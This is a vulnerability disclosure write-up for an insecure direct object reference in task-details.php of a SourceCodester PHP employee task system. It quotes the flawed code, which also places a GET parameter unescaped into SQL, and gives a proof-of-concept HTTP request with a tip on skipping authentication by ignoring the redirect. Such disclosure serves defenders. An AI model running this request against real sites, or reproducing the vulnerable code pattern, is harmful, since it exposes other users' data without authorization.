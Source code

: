 # SOURCECODESTER / Employee Task Management System - IDOR task-details.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)

## Vendor Homepage:
> https://www.sourcecodester.com/php/17217/employee-management-system-php-and-mysql-free-download.html

## Affected Component
> /task-details.php

## Code
```php
$task_id = $_GET['task_id'];



if(isset($_POST['update_task_info'])){
    $obj_admin->update_task_info($_POST,$task_id, $user_role);
}

$page_name="Edit Task";
include("include/sidebar.php");

$sql = "SELECT a.*, b.fullname 
FROM task_info a
LEFT JOIN tbl_admin b ON(a.t_user_id = b.user_id)
WHERE task_id='$task_id'";
$info = $obj_admin->manage_all_info($sql);
$row = $info->fetch(PDO::FETCH_ASSOC);
```

## Proof of Concept
**HTTP Request Example**
>task_id parameter is vulnerable to IDOR
>Note: Attacker can use idor without authentication in burp by not following the redirection
``` http request
GET /task-details.php?task_id=21 HTTP/1.1
Host: 127.0.0.1
Research-By: NoChizPlz
```

## Screenshot
![img.png](IDOR%20-%20task-details%2Fimg.png)


